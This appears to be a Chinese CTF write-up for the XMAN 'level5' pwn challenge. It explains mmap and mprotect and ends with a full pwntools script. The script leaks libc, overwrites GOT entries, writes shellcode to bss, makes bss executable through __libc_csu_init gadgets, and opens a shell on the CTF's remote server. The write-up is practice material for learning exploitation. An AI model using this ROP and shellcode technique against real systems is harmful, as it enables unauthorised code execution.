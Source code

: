 # write up 0718

## [XMAN]level5

从上周五开始看的一道题，很抱歉鸽了几天，我实在是太菜了

### 分析：

这道题本来难度并不大，文件与level3_x64相同，但是这题的要求是假设``system``函数和``execve``函数被禁用，用``mmap()``和``mprotect()``函数完成

### mmap

```c
void *mmap( void *start , size_t length , int prot , int flags , int fd , off_t offsize)
```

参数start：

- 指向欲映像的内存起始地址，通常设为NULL，代表让系统自动标明地址，映像成功后返回该地址。

参数length：

- 代表将文件中多大的部分映像到内存。

参数prot：映像区域的保护方式。可以为以下几种方式的组合：

- PROT_EXEC映像区域可被执行
- PROT_READ映像区域可被读取
- PROT_WRITE映像区域可被写入
- PROT_NONE映像区域不能存取

参数flags：影响映像区域的各种特性。在调用mmap（）时必须要指定MAP_SHARED或MAP_PRIVATE。

- MAP_FIXED：如果参数start所指的地址无法成功建立映像时，则放弃映像，不对地址做修正。通常不鼓励用此旗标。
- MAP_SHARED：对映像区域的写入数据会复制回文件内，而且允许其他映像该文件的进程共享，原来的文件会改变。
- MAP_PRIVATE：对映像区域的写入操作会产生一个映像文件的复制，即私人的“写入时复制”（copy on write）对此区域作的任何修改都不会写回原来的文件内容。当共享的对象的虚拟存储区域为私有对象时，修改只会被本进程中改变。*（学的操作系统终于派上用场了）*
- MAP_ANONYMOUS：建立匿名映像。此时会忽略参数fd，不涉及文件，而且映像区域无法和其他进程共享。
- MAP_DENYWRITE：只允许对映像区域的写入操作，其他对文件直接写入的操作将会被拒绝。
- MAP_LOCKED：将映像区域锁定住，这表示该区域不会被置换（swap）。
  参数fd：
- 要映像到内存中的文件描述符。如果使用匿名内存映像时，即flags中设置了MAP_ANONYMOUS，fd设为-1。有些系统不支持匿名内存映像，则可以使用fopen打开/dev/zero文件，然后对该文件进行映像，可以同样达到匿名内存映像的效果。
  参数offset：
- 文件映像的偏移量，通常设置为0，代表从文件最前方开始对应，offset必须是分页大小的整数倍。

返回值：

- 若映像成功则返回映像区的内存起始地址，否则返回MAP_FAILED（－1），错误原因存于errno中。

### mprotect

```c
int mprotect(const void *start, size_t len, int prot);
```

在Linux中，``mprotect()``函数可以用来修改一段指定内存区域的保护属性。
``mprotect()``函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值,就是常见的0x111对应执行，写，读权限

``mmap()``的参数过多，跟着网上的wp用``mprotect()``完成了这一题

``mprotect()``有三个参数，这里需要使用到``__libc_csu_init``结尾的``gadget``来进行传参

### 思路：

首先与level3_x64相同，通过泄露libc地址得到``mprotect()``的地址

接着将``mprotect()``和bss段写入got表中

然后把shellcode写入bss段

最后调用``mprotect()``函数，修改bss段的权限并返回到bss段运行shellcode

### 问题：

一开始准备使用got表中数值为0的地址，失败多次之后改用``__libc_start_main``的got表位

另外，不知道为什么要用pause()，好像是要维持线程

还有，这题的shellcode需要调整参数，一开始没有注意到一直出错

### exp:

```python
from pwn import *

context(log_level = 'debug',os = 'linux',arch = 'amd64')

#n = process('./level5')
n = remote('pwn2.jarvisoj.com', 9884)
#n = remote("localhost",12345)

elf = ELF('./level5')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc-2.19.so')

offset = 0x88

read_got = elf.got['read']
read_plt = elf.symbols['read']
write_plt = elf.symbols['write']
main_addr = elf.symbols['main']
bss_addr = elf.bss()
shellcode = asm(shellcraft.amd64.sh())

pop_rdi_ret_addr = 0x00000000004006b3
pop_rsi_pop_r15_ret_addr = 0x00000000004006b1

payload1 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(1) + p64(pop_rsi_pop_r15_ret_addr) +  p64(read_got) + 'deadbuff' + p64(write_plt) + p64(main_addr)

n.recvuntil("Input:\n")
n.send(payload1)
sleep(0.2)
pause()
read_addr = u64(n.recv(8))

libc.address = read_addr - libc.symbols['read']

mprotect_addr = libc.symbols['mprotect']
print 'mprotect_addr = ' + hex(mprotect_addr)

#write the mprotect to got table
libc_start_main_got = elf.got['__libc_start_main']
payload2 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(libc_start_main_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload2)
sleep(0.2)
n.send(p64(mprotect_addr))
sleep(0.2)
pause()

#write the shellcode to bss
payload3 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(bss_addr) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload3)
sleep(0.2)
n.send(shellcode)
sleep(0.2)
pause()

#write the bss to got table
gmon_start_got = elf.got['__gmon_start__']
payload4 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(gmon_start_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload4)
sleep(0.2)
n.send(p64(bss_addr))
sleep(0.2)
pause()

csu_start = 0x4006AA
csu_end = 0x400690

payload5 = 'a' * offset + p64(csu_start) + p64(0) + p64(1) + p64(libc_start_main_got) + p64(7) + p64(0x1000) + p64(0x600000) + p64(csu_end)
payload5 += 'deadbuff' + p64(0) + p64(1) + p64(gmon_start_got) + p64(0) +p64(0) + p64(0) + p64(csu_end)
n.send(payload5)
sleep(0.2)
pause()

n.interactive()
```

